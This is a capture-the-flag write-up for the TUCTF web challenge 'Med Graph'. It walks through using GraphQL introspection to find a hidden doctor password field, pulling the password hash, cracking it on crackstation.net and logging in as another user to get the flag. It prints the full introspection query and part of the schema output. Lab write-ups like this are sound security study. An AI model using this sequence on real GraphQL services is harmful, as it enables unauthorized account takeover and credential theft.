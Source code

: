 ------------

### CTF: TUCTF

------------

![image](https://github.com/user-attachments/assets/0103e628-3780-459b-9e5f-7ed118289138)

------------

### CHALLENGES-:

------------

- Web-:
  - Med Graph

--------------

### Med Graph

------------

![image](https://github.com/user-attachments/assets/74c149e9-855a-4a37-9682-9d271c00af13)

-------------

- After entering the provided creds, I noticed this graphql endpoint in the intercept tab.

![image](https://github.com/user-attachments/assets/cf8e3ed0-28a4-4b84-a15e-b1f75b3ec90f)

- I sent it to repeater and copied an introspection query to the graphql tab to discover the graphql schema of the webpage.

![image](https://github.com/user-attachments/assets/ac24323f-0fd0-4aea-9304-de1d853a32ce)

- Introspection query

```graphql
query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```

- I found other valid fields for the field Object `doctor` like `name`,`id` and `password` in the introspection schema.I added it to the query and got the hashed password for the doctor.

```graphql
{
              "args": [],
              "deprecationReason": null,
              "description": null,
              "isDeprecated": false,
              "name": "doctor",
              "type": {
                "kind": "OBJECT",
                "name": "DoctorType",
                "ofType": null
              }
            },
            {
              "args": [],
              "deprecationReason": null,
              "description": null,
              "isDeprecated": false,
              "name": "appointment",
              "type": {
                "kind": "OBJECT",
                "name": "AppointmentType",
                "ofType": null
              }
            }
          ],
          "inputFields": null,
          "interfaces": [],
          "kind": "OBJECT",
          "name": "MedicationType",
          "possibleTypes": null
        },
        {
          "description": null,
          "enumValues": null,
          "fields": [
            {
              "args": [],
              "deprecationReason": null,
              "description": null,
              "isDeprecated": false,
              "name": "id",
              "type": {
                "kind": "SCALAR",
                "name": "Int",
                "ofType": null
              }
            },
            {
              "args": [],
              "deprecationReason": null,
              "description": null,
              "isDeprecated": false,
              "name": "name",
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              }
            },
            {
              "args": [],
              "deprecationReason": null,
              "description": null,
              "isDeprecated": false,
              "name": "department",
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              }
            },
            {
              "args": [],
              "deprecationReason": null,
              "description": null,
              "isDeprecated": false,
              "name": "password",
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              }
            },
            {
              "args": [],
              "deprecationReason": null,
              "description": null,
              "isDeprecated": false,
              "name": "patients",
              "type": {
                "kind": "LIST",
                "name": null,
                "ofType": {
                  "kind": "OBJECT",
                  "name": "PatientType",
                  "ofType": null
                }
              }
            }
          ]
```

- Query-:

![image](https://github.com/user-attachments/assets/45db9d2e-4df7-43ff-86ec-f907a21a02cc)

- Response-:

![image](https://github.com/user-attachments/assets/dd34232a-3970-413b-b1cf-92c064a430c3)

- I was able to crack the hash with `crackstation.net`.

![image](https://github.com/user-attachments/assets/3dc5ed01-356d-4b45-978e-d9eb56702fc9)

- Doctor Ivy's  account accessed-:

![image](https://github.com/user-attachments/assets/a6eef09f-02b3-457e-bc3d-b70dae13a28f)

- Flag-:

```TUCTF{w3_7h1nk_1n_6r4ph5}```

-------------------















